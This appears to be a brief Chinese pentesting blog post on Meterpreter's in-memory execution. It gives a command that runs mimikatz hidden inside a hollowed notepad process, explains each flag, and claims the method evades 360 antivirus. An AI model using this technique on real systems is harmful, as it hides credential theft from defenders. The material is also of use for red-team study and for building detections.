 ```yaml
---
title: "Meterpreter 内存加载执行"
date: 2019-07-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit','bypass']
categories: ['内网渗透','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


具体原理和进程注入类似, 先创建一个正常的进程, 然后把这个进程里的内存空间覆盖成我们想要执行的程序.

Meterpreter 方式.

<!--more-->

```
execute -H -m -d notepad.exe -f mimikatz.exe -i
```

`-H` 隐藏窗口.

`-m` 在内存中执行.

`-d` 指定覆盖进程 (dummy).

`-f` 指定执行程序 (本地文件).

`-i` 与该程序交互 (可选).

`-a` 传递参数 (可选).

在实际测试中能够绕过 360 的检测, 当然前提是你反弹会话的 payload 是免杀的.